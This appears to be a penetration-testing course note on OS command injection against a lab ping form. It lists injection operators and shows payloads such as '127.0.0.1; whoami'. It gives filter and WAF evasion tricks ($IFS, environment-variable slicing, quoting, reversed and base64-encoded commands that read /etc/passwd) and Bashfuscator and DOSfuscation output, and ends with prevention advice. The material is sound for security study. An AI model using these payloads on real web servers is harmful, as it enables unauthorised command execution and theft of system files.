









- [Command Injections](#command-injections)
  - [Detection](#detection)
    - [Command Injection Detection](#command-injection-detection)
    - [Command Injection Methods](#command-injection-methods)
  - [Injecting Commands](#injecting-commands)
    - [Injecting your Command](#injecting-your-command)
    - [Bypassing Front-End Validation](#bypassing-front-end-validation)
  - [Other Injection Operators](#other-injection-operators)
    - [AND Operator](#and-operator)
    - [OR Operator](#or-operator)
  - [Identifying Filters](#identifying-filters)
    - [Filter/WAF Detection](#filterwaf-detection)
    - [Blacklisted Characters](#blacklisted-characters)
      - [Identifying Blacklisted Character](#identifying-blacklisted-character)
  - [Bypassing Space Filters](#bypassing-space-filters)
    - [Using Tabs](#using-tabs)
    - [Using $IFS](#using-ifs)
    - [Using Brace Expansion](#using-brace-expansion)
  - [Bypassing Other Blacklisted Characters](#bypassing-other-blacklisted-characters)
    - [Linux](#linux)
    - [Windows](#windows)
    - [Character Shifting](#character-shifting)
  - [Bypassing Blacklisted Commands](#bypassing-blacklisted-commands)
    - [Commands Blacklist](#commands-blacklist)
    - [Linux \& Windows](#linux--windows)
    - [Linux Only](#linux-only)
    - [Windows Only](#windows-only)
  - [Advanced Command Obfuscation](#advanced-command-obfuscation)
    - [Case Manipulation](#case-manipulation)
    - [Reversed Commands](#reversed-commands)
      - [Linux](#linux-1)
      - [Windows](#windows-1)
    - [Encoded Commands](#encoded-commands)
      - [Linux](#linux-2)
      - [Windows](#windows-2)
  - [Evasion Tools](#evasion-tools)
    - [Linux (Bashfuscator)](#linux-bashfuscator)
    - [Windows (DOSfucation)](#windows-dosfucation)
  - [Command Injection Prevention](#command-injection-prevention)
    - [System Commands](#system-commands)
    - [Input Validation](#input-validation)
    - [Input Sanitization](#input-sanitization)
    - [Server Configuration](#server-configuration)

---

[Cheatsheet Command Injections](../../../cheatsheets/Command_Injections_Module_Cheat_Sheet.pdf)

# Command Injections

When it comes to OS Command Injections, the user input you control must directly or indirectly go into a web query that executes system commands. All web programming languages have different functions that enable the developer to execute operating system commands directly on the back-end server whenever they need to. This may be used for various purposes, like installing plugins or executing certain plugins.

## Detection

### Command Injection Detection

When you visit the web application, you see a "Host Checker" utility that appears to ask you for an IP to check whether it is alive or not.



You can try entering the localhost IP ```127.0.0.1``` to check the functionality, and it returns the output of the ```ping``` command telling you that the localhost is alive.



You can confidently guess that the IP you entered is going into a ```ping``` command since the output you receive suggests that. The command used may be:

```bash
ping -c 1 OUR_INPUT
```

If your code is not sanitized and escaped before it is used with the ```ping``` command, you may be able to inject another arbitrary command.

### Command Injection Methods

To inject an additional command to the intended one:

| Injection Operator | Injection Character | URL-Encoded Character | Executed Command |
| ------------------ | ------------------- | --------------------- | ---------------- |
| Semicolon | ```;``` | %3b | Both |
| New Line | ```\n``` | %0a | Both |
| Background | ```&``` | %26 | Both (_second output generally shown first_) |
| Pipe | ``` \| ``` | %7c | Both (_only second output is shown_) |
| AND | ```&&``` | %26%26 | Both (_only if first succeeds_) |
| OR | ``` \|\| ``` | %7c%7c | Second (_only if first fails_) |
| Sub-Shell | ``` `` ``` | %60%60 | Both (_Linux-only_) |
| Sub-Shell | ```$()``` | %24%28%29 | Both (_Linux-only_) |

> [!TIP]
> While expressions like ```%20``` might work when used in URLs, you may face problems when you try to use it inside commands which execute the command directly inside a shell context.<br>Inside shells you can use ```\x20```, which is the hexadecimal escape sequence for a space.<br>```bash "$(printf 'cat\x20/flag.txt')"``` will execute ```cat /flag.txt```.<br><br>[HTML Codes](https://ascii.cl/htmlcodes.htm)<br>[ANSI Escape Sequences](https://gist.github.com/ConnerWill/d4b6c776b509add763e17f9f113fd25b)

You can use any of these operators to inject another command so both or either of the commands get executed. You would

1. write your expected input,
2. use any of these above operators, and then
3. write your new command.

## Injecting Commands

### Injecting your Command

You can add a semi-colon after you IP and then append your command, such that the final payload you will use is ```127.0.0.1; whoami```, and the final command to be executed would be:

```bash
ping -c 1 127.0.0.1; whoami
```

> [!NOTE]
> A potential error can be user input validation happening on the front-end.

### Bypassing Front-End Validation

The easiest method to customize the HTTP requests being sent to the back-end server is to use a web proxy that can intercept the HTTP requests being sent by the application.



## Other Injection Operators

### AND Operator

You can start with the AND (_&&_) operator, such that your final payload would be ```127.0.0.1 && whoami```, and the final executed command would be:

```bash
ping -c 1 127.0.0.1 && whoami
```

The command runs, and you get the same output (_ping-statistics and www-data_).

### OR Operator

The OR operator only executes the second command if the first command fails to execute. This may be useful in cases where your injection would break the original command without having a solid way of having both commands work.

```bash
21y4d@htb[/htb]$ ping -c 1 127.0.0.1 || whoami

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.635 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.635/0.635/0.635/0.000 ms
```

Only the first command would execute. This is because of how bash commands work. As the first command returns exit code ```0``` indicating successful execution, the bash command stops and does not try the other command. It would only attempt to execute the other command if the first command failed and returned an exit code ```1```.

By intentionally breaking the first command by not supplying an IP directly using the ```\|\|``` operator, such that the ping command would fail and your injected command gets executed.

```bash
21y4d@htb[/htb]$ ping -c 1 || whoami

ping: usage error: Destination address required
21y4d
```

## Identifying Filters

### Filter/WAF Detection



This indicates that something you sent triggered a security mechanism in place that denied your request. This error message can be displayed in various ways. In this case, you see it in the field where the output is displayed, meaning that is was detected and prevented by the PHP web application itself. If the error message displayed a different page, with information like your IP and your request, this may indicate that it was denied by a WAF.

### Blacklisted Characters

A web application may have a list of blacklisted characters, and if the command contains them, it would deny the request. The PHP code may look something like this:

```php
$blacklist = ['&', '|', ';', ...SNIP...];
foreach ($blacklist as $character) {
    if (strpos($_POST['ip'], $character) !== false) {
        echo "Invalid input";
    }
}
```

If any character in the string you sent matches a character in the blacklist, your request is denied.

#### Identifying Blacklisted Character

One way to identify a blackliste character is to just reduce the command part by part. If you can clearly say, that it's the injection operator which is blacklisted, you should start trying other operators



> [!NOTE]
> The new-line character is usually not blacklisted, as it may be needed in the payload itseld. It in appending your commands both in Linux and Windows.

## Bypassing Space Filters

A space is a common blacklisted character, especially if the input should not contain any spaces, like an IP. Still, there are many ways to add a space character without actually using the space character.



### Using Tabs

Using Tabs (_%09_) instead of spaces is a technique that may work, as both Linux and Windows accept commands with tabs between arguments, and they are executed the same.



### Using $IFS

> [!NOTE]
> "The special shell variable _IFS_ determines how Bash recognizes word boundaries while splitting a sequence of character strings."

Using the (\$IFS) Linux Environment Variable may also work since its default value is a space and a tab, which would work between command arguments. So, if you use ```${IFS}``` where the spaces should be, the variable should be automatically replaced with a space, and your command should work.



### Using Brace Expansion

... which automatically adds spaces between arguments wrapped between braces.

Payload example:

```bash
127.0.0.1%0a{ls,-la}
```

Bash example:

```bash
d41y@htb[/htb]$ {ls,-la}

total 0
drwxr-xr-x 1 21y4d 21y4d   0 Jul 13 07:37 .
drwxr-xr-x 1 21y4d 21y4d   0 Jul 13 13:01 ..
```

## Bypassing Other Blacklisted Characters

A very commonly blacklisted character is the slash (```/```) or backslash (```\```) character, as it is necessary to specify directories in Linux or Windows.

### Linux

One technique you can use for replacing slashes is through Linux Environment Variables. While ```${IFS}``` is directly replaced with a space, there's no such environment variable for slashes or semi-colons. However, these characters may be used in an environment variable, and you can specify start and length of your string to exactly match this character.

```bash
d41y@htb[/htb]$ echo ${PATH}

/usr/local/bin:/usr/bin:/bin:/usr/games

...

d41y@htb[/htb]$ echo ${PATH:0:1}

/

...

d41y@htb[/htb]$ echo ${LS_COLORS:10:1}

;
```



### Windows

The same concept works on Windows as well. To produce a slash in CMD, you can echo a Windows variable (e.g. ```%HOMEPATH%```), and then specify a starting position, and finally specifying a negative end position.

For ```%HOMEPATH%``` -> ```\User\htb-student```:

```cmd
C:\htb> echo %HOMEPATH:~6,-11%

\
```

It also works on Powershell using the same variables. With Powershell, a word is considered an array, so you have to specify the index of the character you need. As you only need one character, you don't have to specify the start and end positions:

```powershell
PS C:\htb> $env:HOMEPATH[0]

\


PS C:\htb> $env:PROGRAMFILES[10]
PS C:\htb>
```

> [!NOTE]
> Use ```Get-ChildItem Env:``` to print all environment variables and then pick one of them to produce a character you need.

### Character Shifting

The following Linux command shifts the character you pass by 1. So, all you have to do is find the character in the ASCII table that is just before your needed character (_```man ascii``` to get the position_), then add it instead of ```[``` in the below example.

```bash
d41y@htb[/htb]$ man ascii     # \ is on 92, before it is [ on 91
d41y@htb[/htb]$ echo $(tr '!-}' '"-~'<<<[)

\
```
## Bypassing Blacklisted Commands

### Commands Blacklist

A basic command blacklist filter in PHP would look like this:

```php
$blacklist = ['whoami', 'cat', ...SNIP...];
foreach ($blacklist as $word) {
    if (strpos('$_POST['ip']', $word) !== false) {
        echo "Invalid input";
    }
}
```

It is checking each word of the user input to see if it matches any of the blacklisted words. However, this code is looking for an exact match of the provided command, so if you send a slightly different command, it may not get blocked.

### Linux & Windows

One very common and easy obfuscation technique is inserting certain characters within your command that are usually ignored by command shells like Bash or Powershell and will execute the same command as if they were not there. Some are ```'``` or ```"```.

```bash
21y4d@htb[/htb]$ w'h'o'am'i

21y4d

...

21y4d@htb[/htb]$ w"h"o"am"i

21y4d
```

> [!CAUTION]
> You cannot mix types of quotes and the number of qoutes must be even.

### Linux Only

There are some other Linux-only chars that you can use in the middle of commands, which the Bash shell will ignore. These are ```\``` and ```$@```. It works exactly as id did with the quotes, the number of chars do not have to be even.

```bash
who$@ami
w\ho\am\i
```

### Windows Only

There are also some Windows-only chars you can insert in the middle of commands that do not affect the outcome, like a ```^```.

```powershell
C:\htb> who^ami

21y4d
```

## Advanced Command Obfuscation

In some instances there are advanced filtering solutions, like WAF, and basic evasion techniques may not necessarily work.

### Case Manipulation

One command obfuscation technique is case manipulation, like inverting the character cases of a command or alternating between cases. This usually works because a command blacklist may not check for different case variations of a single word, as Linux systems are case-sensitive.

```bash
21y4d@htb[/htb]$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")

21y4d
```

> [!NOTE]
> This command uses ```tr``` to replace all upper-case chars with lower-case chars, which results in all lower-case chars command.

In Microsoft, you can change the casing of the characters of the command and send it. Commands for Powershell are case-insensitive, meaning they will execute the command regardless of what case it is written in:

```Powershell
PS C:\htb> WhOaMi

21y4d
```

### Reversed Commands

#### Linux

Another command obfuscation technique is reversing commands and having a command template that switches them back and executes them in real-time.

```bash
d41y@htb[/htb]$ echo 'whoami' | rev
imaohw
```

Then, you can execute the original command by reversing it back in a sub-shell ```$()```:

```bash
21y4d@htb[/htb]$ $(rev<<<'imaohw')

21y4d
```

#### Windows

The same can applied in Windows.

```powershell
PS C:\htb> "whoami"[-1..-20] -join ''

imaohw
```

Powershell sub-shell:

```powershell
PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"

21y4d
```

### Encoded Commands

... are helpful for commands containing filtered characters or characters that may be URL-decoded by the server. This may allow for the command to get messed up by the time it reaches the shell and eventually fails to execute. Instead of copying an existing command online, you will try to create your own unique obfuscation command this time. This way, it is much less likely to be denied by a filter or a WAF. The command you create will be unique to each case, depending on what chars are allowed and the level of security of the server.

#### Linux

You can utilize various encoding tools, like ```base64``` or ```xxd```.

```bash
d41y@htb[/htb]$ echo -n 'cat /etc/passwd | grep 33' | base64

Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```

Now you can create a command that will decode the encoded string in a sub-shell, and then pass it to Bash to be executed.

```bash
d41y@htb[/htb]$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

#### Windows

You can use the same technique with Windows as well:

```powershell
PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))

dwBoAG8AYQBtAGkA
```

And:

```powershell
PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"

21y4d
```

## Evasion Tools

If you are dealing with advanced security tools, you may not be able to use basic, manual obfuscation techniques. In such cases, it may be best to resort to automated obfuscation tools.

### Linux ([Bashfuscator](https://github.com/Bashfuscator/Bashfuscator))

```bash
d41y@htb[/htb]$ ./bashfuscator -h

usage: bashfuscator [-h] [-l] ...SNIP...

optional arguments:
  -h, --help            show this help message and exit

Program Options:
  -l, --list            List all the available obfuscators, compressors, and encoders
  -c COMMAND, --command COMMAND
                        Command to obfuscate
...SNIP...
```

You can start by providing the command you want to obfuscate with the ```-c``` flag.

```bash
d41y@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd'

[+] Mutators used: Token/ForCode -> Command/Reverse
[+] Payload:
 ${*/+27\[X\(} ...SNIP...  ${*~}   
[+] Payload size: 1664 characters
```

However, running the tool this way will randomly pick an obfuscation technique, which can output a command length ranging from a few hundred chars to over a million chars. You can use some of the flags from the help menu to produce a shorter and simpler obfuscated command.

```bash
d41y@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1

[+] Mutators used: Token/ForCode
[+] Payload:
eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"
[+] Payload size: 104 characters
```

To test it:

```bash
d41y@htb[/htb]$ bash -c 'eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"'

root:x:0:0:root:/root:/bin/bash
...SNIP...
```

### Windows ([DOSfucation](https://github.com/danielbohannon/Invoke-DOSfuscation))

There is also a very similar tool you can use for Windows. This is an interactive tool, as you run it once and interact with it to get the desired obfucated command.

```powershell
PS C:\htb> Invoke-DOSfuscation
Invoke-DOSfuscation> help

HELP MENU :: Available options shown below:
[*]  Tutorial of how to use this tool             TUTORIAL
...SNIP...

Choose one of the below options:
[*] BINARY      Obfuscated binary syntax for cmd.exe & powershell.exe
[*] ENCODING    Environment variable encoding
[*] PAYLOAD     Obfuscated payload via DOSfuscation
```

You can start using the tool, as follows:

```powershell
Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation> encoding
Invoke-DOSfuscation\Encoding> 1

...SNIP...
Result:
typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt
```

To test it:

```powershell
C:\htb> typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt

test_flag
```

## Command Injection Prevention

### System Commands

You should always avoid using functions that execute system commands, especially if you are using user input with them. Even when you aren't directly inputting user input into these functions, a user may be able to indirectly influence them, which may lead to a command injection vulnerability.

Instead of using system command execution functions, you should use built-in functions that perform the needed funtionality, as back-end languages usually have secure implementations of these types of functionalities.

If you needed to execute a system command, and no built-in function can be found to perform the same functionality, you should never directly use the user input with these functions but should always validate and sanitize the user input on the back-end. Furthermore, you should try to limit your use of these type if functions as much as possible and only use them when there's no built-in alternative to the functionality you require.

### Input Validation

Input validition is done to ensure it matches the expected format for the input, such that the request is denied if it does not match.

In PHP, like many other webdev languages, there are built in filters for a variety of standard formats, like emails, URLs, and even IPs, which can be used with the ```filter_var``` function:

```php
if (filter_var($_GET['ip'], FILTER_VALIDATE_IP)) {
    // call function
} else {
    // deny request
}
```

If you wanted to validate a different non-standard format, then you can use a RegEx with the ```preg_match``` function. The same can be achieved with JavaScript for both the front-end and back-end.

```php
if(/^(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)$/.test(ip)){
    // call function
}
else{
    // deny request
}
```

### Input Sanitization

The most critical part for preventing any injection vuln is input sanitization, which means removing any non-necessary special chars from the user input. Input sanitization is always performed after input validation. Even after you validated that the provided user input is in the proper format, you should still perform sanitization and remove any special chars not required for the specific format, as there are cases where input validation may fail.

In the example code, you saw that when you were dealing with character and command filters, it was blacklisting certain words and looking for them in the user input. Generally, this is not a good enough approach to preventing injections, and you should use built-in functions to remove any special characters. You can use ```preg_replace``` to remove any special chars from the user input.

```php
$ip = preg_replace('/[^A-Za-z0-9.]/', '', $_GET['ip']);
```

The same can be done with JavaScript:

```javascript
var ip = ip.replace(/[^A-Za-z0-9.]/g, '');
```

### Server Configuration

You should make sure that your back-end server is securely configured to reduce the impact in the event that the webserver is compromised. Some configurations you may implement are:

- Use the web server's built-in WAF
- Abide by the [Principle of Least Privilege](https://en.wikipedia.org/wiki/Principle_of_least_privilege) by running the web server as a low privileged user
- Prevent certain functions from being executed by the web server
- Limit the scope accessible by the web application to its folder
- Reject double-encoded requests and non-ASCII chars in URLs
- Avoid the use of sensitive/outdated libraries and modules